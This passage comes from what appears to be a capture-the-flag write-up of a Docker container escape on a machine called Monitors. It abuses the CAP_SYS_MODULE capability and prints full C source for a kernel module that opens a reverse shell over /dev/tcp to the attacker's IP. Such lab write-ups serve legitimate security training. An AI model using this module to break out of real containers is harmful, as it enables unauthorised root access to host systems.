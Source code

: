 `CAP_SYS_MODULE` is the only one of those three present in this
container, so the kernel module route seems a good target. Because of
how Docker works, the kernel is shared by the host, so this gives the
ability to load a kernel module on the host.

### Exploit

#### Strategy

I'm going to build a kernel modules that provides a reverse shell to the
Monitors. Because kernel modules interact with the kernel at such a low
level, I'll need to build it in the same environment that I want to
install it.

There are many posts that show how to do this exploit (like
[this](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd)
and [this](https://xcellerator.github.io/posts/docker_escape/)), but I
found [this one from
blog.nody.cc](https://blog.nody.cc/posts/container-breakouts-part2/) to
be the simplest to follow.

The tools I need are already installed in the container, like `make` and
`gcc`. The technique will also require the linux headers for the current
kernel. They exist in `/usr/src`, which suggests they are already
installed:



    root@ec8b9784f4a1:~# ls /usr/src/
    apache-ofbiz-17.12.01             linux-headers-4.15.0-142
    linux-headers-4.15.0-132          linux-headers-4.15.0-142-generic  <-- matches uname -r 
    linux-headers-4.15.0-132-generic
    root@ec8b9784f4a1:~# uname -r
    4.15.0-142-generic



#### Create Files

I'll need two files. Because I hate working in a text editor with a
reverse shell, I'll create them locally, and then upload them.

I'll take `reverse-shell.c` directly from the blog post, changing the IP
of the reverse shell to my own:



    #include <linux/kmod.h>
    #include <linux/module.h>
    MODULE_LICENSE("GPL");
    MODULE_AUTHOR("AttackDefense");
    MODULE_DESCRIPTION("LKM reverse shell module");
    MODULE_VERSION("1.0");
    char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.7/443 0>&1", NULL};
    static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
    static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    }
    static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
    }
    module_init(reverse_shell_init);
    module_exit(reverse_shell_exit);
